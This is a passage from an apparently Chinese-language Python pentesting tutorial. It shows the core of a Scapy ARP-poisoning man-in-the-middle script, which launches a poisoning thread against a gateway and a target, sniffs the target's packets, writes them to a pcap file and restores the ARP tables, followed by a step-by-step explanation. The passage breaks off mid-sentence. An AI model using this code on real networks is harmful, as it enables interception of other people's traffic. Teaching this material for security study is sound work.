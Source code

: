 ```
mitm_thread = threading.Thread(target = poison_target, args = (gateway, gwmac_addr, target, targetmac_addr)) 
```

```
mitm_thread.start() 
```

```
try: 
```

```
   print("\nMitM sniffing started. Total packets to be sniffed: %d" % packets) 
```

```
   bpf = "ip host %s" % target 
```

```
   cap_packets = sniff(count=packets, filter=bpf, iface=interface) 
```

```
   wrpcap('arpMITMresults.pcap', cap_packets) 
```

```
   restore(gateway, gwmac_addr, target, targetmac_addr) 
```

```
except KeyboardInterrupt: 
```

```
   restore(gateway, gwmac_addr, target, targetmac_addr) 
```

```
   sys.exit(0)
```

下面是发生的事情：

+   我们首先通过调用`macgrab()`来获取网关和目标 IP 地址。回想一下，`macgrab()`返回的是 MAC 地址，然后分别存储为`gwmac_addr`和`targetmac_addr`。

+   可能的返回值是`None`，所以我们的`if...else`语句会处理这种情况：如果返回值不是`None`，则将值打印到屏幕上，否则会发出警告，并调用`sys.exit()`。

+   `threading.Thread()`类将`poison_target()`定义为我们的目标函数，并将目标和网关信息作为参数传递。

+   `mitm_thread.start()` 启动了攻击，但它是作为一个线程运行的。程序继续执行`try`语句。

+   这里是我们设置嗅探器的地方。这是一个有趣的用例，展示了如何在 Python 中使用 Scapy；请注意，我们将过滤器构造为一个名为`bpf`的字符串变量。调用`sniff()`时，返回的数据会以`cap_packets`的形式存储在内存中。`wrpcap()`会创建一个`pcap`格式的数据包捕获文件。注意，`sniff()`也传递了数据包数量作为参数，那么当这个数字用完时会发生什么？代码会继续调用`restore()`。如果在此之前收到*Ctrl* + *C*的输入，`restore()`仍然会被调用。

正如你所看到的，这个演示中写的`print`语句是基础的。我鼓励你让它看起来更漂亮一些。

别忘了进行路由

